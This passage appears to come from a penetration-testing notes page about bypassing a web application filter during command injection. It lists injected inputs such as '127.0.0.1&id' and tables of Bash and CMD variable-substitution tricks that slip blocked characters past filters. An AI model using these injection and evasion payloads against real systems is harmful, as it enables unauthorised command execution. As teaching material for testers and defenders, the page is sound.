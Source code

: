 <figure><img src="../../../.gitbook/assets/cmd_inj_waf_app.png" alt=""><figcaption><p>Figure 3: An application filter blocking our command injection attempt.</p></figcaption></figure>

We should first try to identify what is blocked. It could be a character (`;`), command (`id`), or both (`;id`). We can find out with some trial and error:

1. `127.0.0.1;` -> :x: (`;` is blocked)
2. Replacing `;` with `&` -> Works ✅&#x20;
3. `127.0.0.1&id` -> :x: (`id` is blocked)
4. Try methods below!

## Manual Bypass

### Blacklisted Characters

#### Bash

`env` lists all environment variables.

| Blocked | Alternative(s)                                                                                          |
| ------: | ------------------------------------------------------------------------------------------------------- |
|     `+` | <p><code>%09</code> (tab)</p><p><code>${IFS}</code></p><p><code>{cmd,flag}</code> (brace expansion)</p> |
|     `/` | `${PATH:0:1}`                                                                                           |
|     `;` | `${LS_COLORS:10:1}`                                                                                     |
|     `:` | `${LS_COLORS:4:1}`                                                                                      |

#### CMD

`set` lists all environment variables.

| Blocked | Alternative(s)     |
| ------: | ------------------ |
|     `\` | `%HOMEPATH:~6,-4%` |
